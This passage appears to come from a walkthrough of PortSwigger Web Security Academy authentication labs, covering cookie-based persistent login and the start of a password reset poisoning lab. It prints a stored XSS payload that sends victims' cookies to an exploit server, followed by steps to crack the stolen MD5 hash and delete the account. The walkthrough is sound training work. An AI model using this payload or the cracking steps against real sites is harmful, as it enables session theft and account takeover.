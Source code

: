 From the response, we can see a stay-logged-in session are base64 encoded string after decoding they look like the following.

```
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

The first thing is the username that we try to log in and the other thing is its password md5 hash.  There is also a comment functionality in site posts that are vulnerable to Cross Site Scripting - XSS attacks.

The lab also has an exploit server in which we see the access log. Go to any post from the site and comment on the following thing.

```
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

Replace the `//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/` with your exploit server URL that looks like the following.

```
https://exploit.0abe00ea03d0d4fcc0a9138a00f900f1.web-security-academy.net
```

use any username and email address and post the comment. Now go back to your exploit server and click on the `access log` button to see the access log there you should see a request that has the victim user cookie copy its base64 encoded string and decode it. Copy the hash and crack it using tools like `john` and `hashcat` or you can also crack it using online sites i.e `crackstation.net`. crack the hash and log in using that crack password and delete the account to solve the lab.

##### LAB #11: Password reset poisoning via middleware

Lab URL: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware

Given Credentials: `wiener:peter`
Victim Usernmae: `carlos`

This Lab contains a Login functionality in which we can login using a username and password combination. If any of these is incorrect they throw an error `invalid username or password.` The lab also has a reset password functionality in which we can reset our password using `username or email` and they send a password reset link to an email client. The lab also has an exploit server in which we can access email for wiener users and view access logs. The password reset functionality request looks like the following.

Request:
```
POST /forgot-password HTTP/2
Host: 0af80040036fb9c3c1408200007e00ec.web-security-academy.net
Cookie: session=UTCkA7KeHmmNpe4rATS6F1AXoQffWQ44
Content-Length: 15
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="111", "Not(A:Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

username=wiener
```
